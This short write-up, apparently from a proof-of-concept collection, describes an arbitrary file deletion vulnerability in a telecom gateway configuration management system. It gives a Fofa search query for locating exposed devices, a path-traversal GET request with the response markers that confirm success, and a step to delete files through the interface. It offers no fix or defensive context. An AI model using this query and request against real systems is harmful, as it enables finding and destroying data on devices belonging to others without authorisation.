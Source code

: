 ### Telecom Gateway Configuration Management System Arbitrary File Deletion

**Fofa Query:** `body="img/dl.gif" && title="系统登录"`

**Vulnerability Description:** The telecom gateway configuration system suffers from an arbitrary file deletion vulnerability.

**Vulnerability POC (Proof of Concept):**

1. **Send a GET request to the following URL:**

   ```
   GET /newlive/manager/self_detail.php?dir=../../ HTTP/1.1
   ```

   **Response Code Characteristic:** 200  
   **Response Content Characteristic:** index.php

2. **Proceed with deletion:**

![image](https://github.com/user-attachments/assets/875434fe-8bef-42fa-bdca-8f02689244a3)


   Simply click the delete option to perform the file deletion.
